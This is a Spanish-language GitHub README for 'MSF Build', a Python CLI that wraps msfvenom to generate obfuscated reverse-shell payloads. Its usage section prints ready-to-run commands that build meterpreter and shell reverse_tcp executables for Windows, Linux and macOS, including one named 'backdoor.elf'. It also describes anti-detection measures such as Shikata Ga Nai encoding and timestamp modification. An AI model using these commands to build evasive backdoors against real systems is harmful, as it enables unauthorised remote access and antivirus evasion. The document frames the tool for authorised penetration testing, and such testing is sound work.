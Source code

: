 # 🛠️ MSF Build

*Herramienta profesional para generar payloads ofuscados con Msfvenom utilizando el codificador Shikata Ga Nai*

![msfbuild](https://github.com/user-attachments/assets/d617ca7f-50f8-46b3-be4b-6ed0567277c0)

## 📜 Descripción
**MSF Build** es una herramienta CLI para generar payloads ofuscados multiplataforma con medidas anti-detección integradas. Utiliza `msfvenom` para crear los payloads y está diseñado para pruebas de penetración éticas.

## ✨ Características
- ✅ Soporte para **Windows**, **Linux** y **macOS**
- 🔄 Ofuscación con **Shikata Ga Nai** y múltiples interaciones.
- 🛡️ Medidas básicas anti-detección (modificación de metadatos)
- 🎨 Interfaz colorida con animaciones
- 🧩 Generación de payloads en múltiples formatos: `exe`, `elf`, `macho`, `python`

## 🚀 Instalación

### Requisitos:
- Python 3.6+
- Metasploit Framework (`msfvenom`)
- Terminal con soporte ANSI

```
# Instalar dependencias
pip install colorama
sudo apt install metasploit-framework  # Para sistemas Debian/Ubuntu

# Clonar repositorio
git clone https://github.com/afsh4ck/MSF-Build.git
cd MSF-Build
```

## 🖥️ Uso

Menú de Ayuda:
```
python3 msfbuild.py -h                                                                                  
    __  ___ _____  ______   ____          _  __     __
   /  |/  // ___/ / ____/  / __ ) __  __ (_)/ /____/ /
  / /|_/ / \__ \ / /_     / __  |/ / / // // // __  / 
 / /  / / ___/ // __/    / /_/ // /_/ // // // /_/ /  
/_/  /_/ /____//_/      /_____/ \__,_//_//_/ \__,_/   
-------------------------------------------------------
     Msfvenom Advanced Obfuscated Payload Builder    
-------------------------------------------------------
                 Developed by: @afsh4ck                

usage: python3 msfbuild.py --os <OS> --arch <ARCH> --type <TYPE> --lhost <IP> --lport <PORT> -o <OUTPUT> [-i ITERATIONS]

options:
  --os {windows,linux,macos}               Sistema operativo objetivo
  --arch {x86,x64}                         Arquitectura objetivo
  --type {exe,elf,macho,python}            Tipo de archivo de salida
  --lhost LHOST                            Dirección IP para conexión reversa
  --lport LPORT                            Puerto para conexión reversa
  -o OUTPUT, --output OUTPUT               Nombre del archivo de salida
  -i ITERATIONS, --iterations ITERATIONS   Iteraciones de ofuscación (solo x86)
  -h, --help                               Mostrar este mensaje de ayuda
```

## 💻 Ejemplos

### Generar ejecutable para Windows x86:
- Por defecto usa el payload: windows/meterpreter/reverse_tcp
```
python3 msfbuild.py \
  --os windows \
  --arch x86 \
  --type exe \
  --lhost 192.168.1.100 \
  --lport 4444 \
  -o payload.exe \
  -i 10
```
### Generar ejecutable para Linux x64:
- Por defecto usa el payload: linux/x64/meterpreter/reverse_tcp
```
python3 msfbuild.py \
  --os linux \
  --arch x64 \
  --type elf \
  --lhost 10.0.0.5 \
  --lport 8080 \
  -o backdoor.elf
```
### Generar ejecutable para macOS:
- Por defecto usa el payload: osx/x64/shell_reverse_tcp
```
python3 msfbuild.py \
  --os macos \
  --arch x64 \
  --type macho \
  --lhost 172.16.23.45 \
  --lport 6500 \
  -o mac_payload
```

## 🛡️ Medidas de Seguridad

- Modificación de timestamps en archivos .exe
- Advertencias automáticas para configuraciones incompatibles
- Validación estricta de parámetros de entrada

## ⚠️ Disclaimer

Este software está diseñado exclusivamente para:
- Pruebas de seguridad autorizadas
- Investigación en entornos controlados
- Educación en ciberseguridad

El uso malicioso de esta herramienta es estrictamente prohibido. 
El autor no se hace responsable del uso indebido.

## 🥷🏼 Autor
- Autor:       afsh4ck 
- Instagram:   <a href="https://www.instagram.com/afsh4ck">afsh4ck</a>
- Youtube:     <a href="https://youtube.com/@afsh4ck">afsh4ck</a>

## ❤️ Soporte

<a href="https://www.buymeacoffee.com/afsh4ck" rel="nofollow"><img width="250" align="left">
![buy-me-a-coffe](https://github.com/user-attachments/assets/8c8f9e81-334e-469e-b25e-29888cfc9fcc)
</a>
